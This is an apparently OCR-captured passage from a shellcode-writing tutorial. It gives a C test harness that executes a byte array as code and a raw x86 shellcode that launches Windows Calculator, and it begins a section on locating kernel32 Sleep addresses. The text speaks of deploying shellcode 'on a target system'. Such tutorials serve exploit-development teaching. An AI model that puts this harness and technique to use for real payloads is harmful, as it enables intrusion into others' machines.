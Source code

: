 Before deploying a shellcode on a target system, it's crucial to verify that it works as intended. One way to test shellcode is to use a simple C program that executes the shellcode. Here's a basic template for such a program:

```c
#include <stdio.h>

char code[] = "shellcode will go here!";

int main(int argc, char **argv) {
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```

In this template, the `code` array is where you would insert your shellcode. The program then converts this array into a function pointer and executes it.

For testing purposes, let's consider a shellcode that opens the Windows Calculator:

```assembly
"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
"\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
"\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
"\x57\x78\x01\xc2\x8b\x7a\x20\x01"
"\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
"\x45\x81\x3e\x43\x72\x65\x61\x75"
"\xf2\x81\x7e\x08\x6f\x63\x65\x73"
"\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
"\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
"\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
"\xb1\xff\x53\xe2\xfd\x68\x63\x61"
"\x6c\x63\x89\xe2\x52\x52\x53\x53"
"\x53\x53\x53\x53\x52\x53\xff\xd7"
```

After inserting the shellcode into the `code` array in the C program, you can compile and run the program. If the execution is successful, it indicates that the shellcode is functional. The appearance of the Calculator or the expected behavior indicates that the shellcode is working.

Remember, it's not necessary for the program to exit gracefully; a crash is acceptable as long as the intended action of the shellcode is observed during testing. This simple C program serves as a valuable tool for testing and debugging shellcode before deployment on a target system.

## Creating Our First Shellcode

In this section, the goal is to manually create a shellcode that causes a thread to sleep for five seconds. To achieve this, the Sleep function from Kernel32.dll is utilized.

### **Finding Function Addresses**

The first step involves obtaining the address of the Sleep function. This can be done using tools like Immunity Debugger or arwin. In Immunity Debugger, you can open the kernel32.dll file, search for the Sleep function, and note its address.
